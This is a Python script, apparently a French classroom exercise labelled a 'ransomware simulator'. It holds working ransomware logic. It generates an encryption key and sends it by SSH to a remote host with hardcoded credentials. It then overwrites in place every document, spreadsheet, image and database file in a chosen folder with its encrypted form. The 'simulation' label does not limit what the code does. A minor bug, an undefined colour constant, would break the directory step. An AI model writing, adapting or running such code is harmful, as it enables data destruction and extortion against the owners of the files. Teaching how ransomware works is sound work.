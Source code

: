 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - TP-03 - CONNEXION SSH
import os
import sys
import time
import logging
from pathlib import Path
from cryptography.fernet import Fernet
import paramiko

# Configuration des couleurs
class Colors:
    RED = '\033[91m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    BLUE = '\033[94m'
    CYAN = '\033[96m'
    END = '\033[0m'
    BOLD = '\033[1m'

# Configuration du logging
logging.basicConfig(
    level=logging.INFO,
    format=f'{Colors.BLUE}%(asctime)s{Colors.END} - {Colors.YELLOW}%(levelname)s{Colors.END} - %(message)s',
    handlers=[
        logging.FileHandler('/tmp/ransomware_sim.log'),
        logging.StreamHandler()
    ]
)
logger = logging.getLogger()

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.ssh_client = paramiko.SSHClient()
        self.ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        
        # Configuration SSH
        self.ssh_config = {
            'host': '192.168.45.90',
            'port': 22,
            'username': 'doranco',
            'password': 'doranco',
            'remote_key_dir': '/home/doranco/cle_dechiffrement'
        }
        
        # Extensions cibles
        self.target_exts = {
            '.txt', '.doc', '.docx', '.xls', '.xlsx', 
            '.pdf', '.jpg', '.png', '.sql', '.db'
        }

    def clear_screen(self):
        os.system('clear' if os.name == 'posix' else 'cls')

    def show_banner(self):
        self.clear_screen()
        print(f"""{Colors.RED}
    ██████╗  █████╗ ███╗   ██╗███████╗ ██████╗ ███╗   ███╗
    ██╔══██╗██╔══██╗████╗  ██║██╔════╝██╔═══██╗████╗ ████║
    ██████╔╝███████║██╔██╗ ██║███████╗██║   ██║██╔████╔██║
    ██╔══██╗██╔══██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║
    ██║  ██║██║  ██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║
    ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝
    {Colors.END}""")
        print(f"{Colors.CYAN}=== SIMULATEUR ÉDUCATIF - TP-03 ==={Colors.END}\n")

    def generate_key(self):
        """Génère une clé de chiffrement"""
        logger.info(f"{Colors.GREEN}Génération de la clé...{Colors.END}")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        logger.info(f"Clé générée: {Colors.YELLOW}{self.key.decode()[:12]}...{Colors.END}")
        return True

    def transfer_key_ssh(self):
        """Transfère la clé via SSH"""
        if not self.key:
            logger.error(f"{Colors.RED}Aucune clé générée!{Colors.END}")
            return False

        try:
            # Connexion SSH
            self.ssh_client.connect(
                hostname=self.ssh_config['host'],
                port=self.ssh_config['port'],
                username=self.ssh_config['username'],
                password=self.ssh_config['password'],
                timeout=10
            )
            
            # Création répertoire distant
            stdin, stdout, stderr = self.ssh_client.exec_command(
                f"mkdir -p {self.ssh_config['remote_key_dir']}"
            )
            
            # Transfert SFTP
            with self.ssh_client.open_sftp() as sftp:
                remote_path = f"{self.ssh_config['remote_key_dir']}/key_{os.uname().nodename}.key"
                with sftp.file(remote_path, 'wb') as remote_file:
                    remote_file.write(self.key)
            
            logger.info(f"{Colors.GREEN}Clé transférée vers {Colors.CYAN}{self.ssh_config['host']}:{remote_path}{Colors.END}")
            return True
            
        except Exception as e:
            logger.error(f"{Colors.RED}Échec transfert SSH: {str(e)}{Colors.END}")
            return False
        finally:
            self.ssh_client.close()

    def encrypt_file(self, filepath):
        """Chiffre un fichier"""
        try:
            if os.path.getsize(filepath) > 50 * 1024 * 1024:  # 50MB max
                return False

            with open(filepath, 'rb') as f:
                data = f.read()
            
            encrypted = self.cipher.encrypt(data)
            
            with open(filepath, 'wb') as f:
                f.write(encrypted)
            
            logger.debug(f"Fichier chiffré: {filepath}")
            return True
        except Exception as e:
            logger.error(f"Erreur sur {filepath}: {str(e)}")
            return False

    def encrypt_directory(self, path):
        """Chiffre un dossier"""
        if not os.path.exists(path):
            logger.error(f"{Colors.RED}Dossier introuvable: {path}{Colors.END}")
            return

        encrypted = errors = 0
        logger.info(f"{Colors.PURPLE}Chiffrement de {path}...{Colors.END}")
        
        for root, _, files in os.walk(path):
            for file in files:
                filepath = Path(root) / file
                
                if filepath.suffix.lower() not in self.target_exts:
                    continue
                
                if self.encrypt_file(filepath):
                    encrypted += 1
                else:
                    errors += 1
        
        logger.info(f"{Colors.GREEN}Terminé! {encrypted} fichiers chiffrés, {errors} erreurs{Colors.END}")

    def automatic_mode(self):
        """Mode automatique complet"""
        self.show_banner()
        print(f"{Colors.YELLOW}=== MODE AUTOMATIQUE ==={Colors.END}")
        
        steps = [
            ("Génération de la clé", self.generate_key),
            ("Transfert SSH de la clé", self.transfer_key_ssh),
            ("Chiffrement des fichiers", lambda: self.encrypt_directory('/chemin/a/chiffrer'))
        ]
        
        for i, (desc, func) in enumerate(steps, 1):
            print(f"\n{Colors.CYAN}[{i}/{len(steps)}] {desc}...{Colors.END}")
            if not func():
                print(f"{Colors.RED}Échec à l'étape {i}!{Colors.END}")
                return
            time.sleep(1)
        
        print(f"\n{Colors.GREEN}Opération terminée avec succès!{Colors.END}")
        input("\nAppuyez sur Entrée pour continuer...")

    def show_menu(self):
        """Affiche le menu interactif"""
        while True:
            self.show_banner()
            print(f"{Colors.BOLD}MENU PRINCIPAL:{Colors.END}")
            print(f"{Colors.GREEN}1.{Colors.END} Générer une clé")
            print(f"{Colors.GREEN}2.{Colors.END} Transférer la clé via SSH")
            print(f"{Colors.GREEN}3.{Colors.END} Chiffrer un dossier")
            print(f"{Colors.GREEN}4.{Colors.END} Mode automatique")
            print(f"{Colors.RED}0.{Colors.END} Quitter")
            
            choice = input("\nVotre choix: ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                self.transfer_key_ssh()
            elif choice == "3":
                path = input("Chemin du dossier à chiffrer: ")
                self.encrypt_directory(path)
            elif choice == "4":
                self.automatic_mode()
            elif choice == "0":
                print(f"{Colors.YELLOW}Au revoir!{Colors.END}")
                sys.exit(0)
            else:
                print(f"{Colors.RED}Choix invalide!{Colors.END}")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    try:
        # Vérification des dépendances
        try:
            import paramiko
        except ImportError:
            print(f"{Colors.RED}Erreur: Le module 'paramiko' est requis.{Colors.END}")
            print("Installez-le avec: pip3 install paramiko")
            sys.exit(1)
            
        sim = RansomwareSimulator()
        sim.show_menu()
    except KeyboardInterrupt:
        print(f"\n{Colors.RED}Interruption par l'utilisateur{Colors.END}")
        sys.exit(1)
    except Exception as e:
        logger.critical(f"{Colors.RED}ERREUR FATALE: {str(e)}{Colors.END}")
        sys.exit(1)